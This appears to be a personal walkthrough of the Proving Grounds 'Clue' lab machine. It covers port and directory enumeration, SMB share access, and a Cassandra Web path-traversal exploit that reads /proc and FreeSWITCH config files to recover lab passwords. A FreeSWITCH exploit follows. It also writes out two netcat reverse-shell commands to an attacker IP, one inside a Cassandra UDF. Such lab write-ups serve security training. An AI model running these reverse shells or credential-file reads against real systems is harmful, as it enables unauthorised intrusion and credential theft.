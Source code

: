 # NMAP

```
sudo nmap -sC -sV 192.168.194.240  -oN nmap-clue
```

![[PG/Linux/attachments/Pasted image 20250709222839.png]]

# Web (80)

![[PG/Linux/attachments/Pasted image 20250709223056.png]]

## Ferox
```
feroxbuster -u http://192.168.194.240/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ferox80
```

![[PG/Linux/attachments/Pasted image 20250709232922.png]]
# Web (3000)

![[PG/Linux/attachments/Pasted image 20250709223016.png]]

## Ferox
```
feroxbuster -u http://192.168.194.240:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ferox3000
```


Two hits 

![[PG/Linux/attachments/Pasted image 20250709232839.png]]

## Manual Enum 

![[PG/Linux/attachments/Pasted image 20250709233119.png]]

Found a place to execute code
![[PG/Linux/attachments/Pasted image 20250709233233.png]]

Maybe I can try a shell here .. if I can find a UDF entry table 

```
CREATE FUNCTION test.exec(name text)
RETURNS NULL ON NULL INPUT
RETURNS text
LANGUAGE javascript
AS $$
  var System = Java.type("java.lang.System");
  System.setSecurityManager(null);
  this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("busybox nc 192.168.45.152 4444 -e /bin/sh")');
  name
$$;
```

![[PG/Linux/attachments/Pasted image 20250709234355.png]]

^ Yeah, no. 

We get a username from this site 'cassie'
# SMB tho 

```
nxc smb 192.168.194.240 -u 'cassie' -p 'cassie' --shares
```

![[PG/Linux/attachments/Pasted image 20250709235645.png]]

We can read this backup share 

```
smbclient -U 'cassie' -N //192.168.194.240/backup
```

![[PG/Linux/attachments/Pasted image 20250709235823.png]]
- yas

![[PG/Linux/attachments/Pasted image 20250709235937.png]]
- changelog maybe interesting 

Some bins 
![[PG/Linux/attachments/Pasted image 20250710000148.png]]

Okie there's a ton in /etc dir

```
mget *
```

![[PG/Linux/attachments/Pasted image 20250710000600.png]]

# Searchsploit Cassandra Web 

Trying to find an exploit here 

```
searchsploit Cassandra Web
```

![[PG/Linux/attachments/Pasted image 20250710003410.png]]

```
searchsploit -m linux/webapps/49362.py
```

Usage ex from exploit 
![[PG/Linux/attachments/Pasted image 20250710003601.png]]

```
192.168.194.240 /proc/self/cmdline
```

Wow.. got Cassie's pass 

![[PG/Linux/attachments/Pasted image 20250710003816.png]]

```
cassie:SecondBiteTheApple330
```

# Freeswitch Password Change

![[PG/Linux/attachments/Pasted image 20250710004229.png]]

Try to read this using that path traversal exploit 

```
/etc/freeswitch/autoload_configs/event_socket.conf.xml
```

Here's the freeswitch password 

![[PG/Linux/attachments/Pasted image 20250710004542.png]]
```
StrongClueConEight021
```

Look for [freeswitch exploits](https://www.exploit-db.com/exploits/47799) 

Here's one that needs valid creds and I enter found creds here
![[PG/Linux/attachments/Pasted image 20250710005042.png]]
Run it and we are the freeswitch user
![[PG/Linux/attachments/Pasted image 20250710004959.png]]

# Reverse Shell Twime

```
nc -nv 192.168.45.152 4444 -e /bin/bash
```

And once again.. this ish doesn't work for me. 

![[PG/Linux/attachments/Pasted image 20250710010447.png]]
![[PG/Linux/attachments/Pasted image 20250710010416.png]]
[Ref](https://medium.com/@manhon.keung/proving-grounds-practice-linux-box-clue-c5d3a3b825d2)

